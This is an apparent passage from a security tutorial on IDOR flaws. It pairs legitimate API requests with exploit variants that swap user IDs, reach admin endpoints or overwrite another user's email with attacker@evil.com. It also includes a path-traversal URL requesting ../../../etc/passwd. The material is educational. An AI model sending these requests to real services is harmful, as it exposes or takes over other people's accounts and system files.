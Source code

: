 ```html
<input type="hidden" name="accountNumber" value="12345">
```

### API Endpoints

```
GET /api/v1/users/123/documents
PUT /api/v1/orders/456/cancel
DELETE /api/v1/comments/789
```

### File Paths

```
https://example.com/app/loadDocument.php?file=../../../etc/passwd
https://example.com/users/profile_pictures/user1337.jpg
```

## IDOR Vulnerability Types

### Horizontal Privilege Escalation

Accessing resources belonging to other users with the same privilege level.

```
# Legitimate request
GET /api/users/1337/messages

# IDOR exploit (accessing another user's messages)
GET /api/users/1338/messages
```

### Vertical Privilege Escalation

Accessing resources that require higher privileges than the attacker possesses.

```
# Legitimate user request
GET /api/users/profile

# IDOR exploit (accessing admin functionality)
GET /api/admin/users
```

### Insecure Function Calls

Invoking functions or operations without proper authorization.

```
# Legitimate request
POST /api/users/1337/update
{
  "name": "John Doe",
  "email": "john@example.com"
}

# IDOR exploit (modifying another user's data)
POST /api/users/1338/update
{
  "name": "Hacked",
  "email": "attacker@evil.com"
}
```
